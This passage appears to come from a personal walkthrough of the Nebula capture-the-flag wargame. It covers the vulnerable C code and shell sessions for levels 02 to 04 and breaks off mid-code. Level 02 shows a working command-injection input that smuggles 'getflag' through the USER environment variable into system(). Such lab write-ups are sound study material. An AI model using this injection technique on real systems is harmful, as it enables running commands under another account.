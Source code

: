 ``` C

  system(buffer);
}

```

Similar to level01. The ```getenv()``` function returns the current environment variable ```USER```. This is copied to the buffer and passed to the ```system()``` function. This is easily exploitable because we can modify the variable. Simply add a ';' followed by whichever command we want to execute as the ```flag02``` user.

``` bash
level02@nebula:/home/flag02$ USER="lol; getflag;"
level02@nebula:/home/flag02$ ./flag02 2> /dev/null
about to call system("/bin/echo lol; getflag; is cool")
lol
You have successfully executed getflag on a target account
```

## Level 03

Level03's description :
> Check the home directory of flag03 and take note of the files there.
>
> There is a crontab that is called every couple of minutes.

The directory ```/home/flag03/``` contains a folder and a script.

``` bash
level03@nebula:/home/flag03$ ls -l
total 1
drwxrwxrwx 2 flag03 flag03  3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03 98 2011-11-20 21:22 writable.sh
level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```


The solution I had in mind is not working. Looked up a few walkthroughs. None are working :( . Should figure this out.

## Level 04

Level04's description :
> This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

``` C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
```